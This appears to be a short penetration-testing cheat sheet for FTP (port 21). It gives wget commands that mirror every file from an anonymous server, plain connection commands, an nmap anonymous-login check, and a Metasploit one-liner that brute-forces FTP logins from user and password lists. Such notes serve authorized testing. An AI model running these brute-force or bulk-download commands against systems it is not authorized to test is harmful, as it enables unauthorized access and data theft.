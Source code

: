 # FTP

% ftp, 21

## ftp - download all 
```
wget -m ftp://anonymous:anonymous@<ip>
```

## ftp download all (2)
```
wget -m --no-passive ftp://anonymous:anonymous@<ip>
```

## ftp - connect
```
ftp <ip>
```

## ftp - connect port
```
ftp <ip> <port>
```

## ftp - enum anonym
```
nmap -v -p 21 --script=ftp-anon.nse <ip>
```

## ftp - msf bruteforce login
```
msfconsole -x "use auxiliary/scanner/ftp/ftp_login; set RHOSTS <ip>; set USER_FILE <user_file>; set PASS_FILE <password_file>; exploit"
```

